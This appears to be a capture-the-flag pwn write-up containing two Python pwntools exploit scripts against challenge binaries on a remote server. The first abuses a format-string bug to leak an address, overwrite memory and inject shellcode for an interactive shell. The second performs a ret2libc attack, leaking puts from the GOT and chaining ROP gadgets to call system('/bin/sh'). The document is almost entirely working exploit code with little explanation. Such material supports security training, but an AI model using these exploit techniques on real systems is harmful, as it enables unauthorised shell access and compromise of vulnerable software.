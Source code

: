 ```
from pwn import *
#io = process('./fmt20')
io = remote('47.97.58.52',42002)
context(os = 'linux',arch='amd64',log_level = 'debug')

io.sendafter(b'something:',b'%9$p')
io.recvuntil(b'Shanghai!\n')
a = int(io.recv(14).decode(),16)
addr = a - 0x1140 + 0x4068
print(hex(addr))
keys = 0x1919810 
#gdb.attach(io)
#pause()
payload = b'%16c%8$hhn'.ljust(16,b'\x00') + p64(addr)
io.sendlineafter(b'something:',payload)

payload = b'%152c%8$hhn'.ljust(16,b'\x00') + p64(addr+1)
io.sendlineafter(b'something:',payload)

payload = b'%145c%8$hhn'.ljust(16,b'\x00') + p64(addr+2)
io.sendlineafter(b'something:',payload)

payload = b'%1c%8$hhn'.ljust(16,b'\x00')  + p64(addr+3)
io.sendlineafter(b'something:',payload)
payload = b'%7$s'.ljust(8,b'\x00')
io.sendafter(b'something:',payload + p64(addr))
io.sendafter(b'something:',b'stop\x00')
payload1 = asm(shellcraft.amd64.sh())
io.send(payload1)
io.interactive()
```

#### [Week 2] ret2libc

<img src="http://www.leidongzheng.com/wp-content/uploads/2024/10/图片-19.png" alt="img" style="zoom: 67%;" />

先泄露puts.got,然后打ret2libc

```
from pwn import *
#io = process('./pwn11')
io = remote('47.97.58.52',42003)
context(os='linux',arch='amd64',log_level = 'debug')
elf = ELF('./pwn11')
libc = ELF('libc.so.6')

pop_rdi_ret = 0x4012c3
vuln = 0x401205
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
ret = 0x40101a

payload = b'A'*40 + p64(pop_rdi_ret) + p64(puts_got) + p64(puts_plt) + p64(vuln)
io.send(payload)
io.recvuntil(b'?\n')
puts_addr = u64(io.recv(6).ljust(8,b'\x00'))
print(hex(puts_addr))
libc_b = puts_addr - libc.symbols['puts']
sys_a = libc_b + libc.symbols['system']
bin_a = libc_b + next(libc.search(b"/bin/sh\x00"))
#gdb.attach(io)
#pause()
payload = b'A'*40 + p64(ret) + p64(pop_rdi_ret) + p64(bin_a) + p64(sys_a)
io.send(payload)
```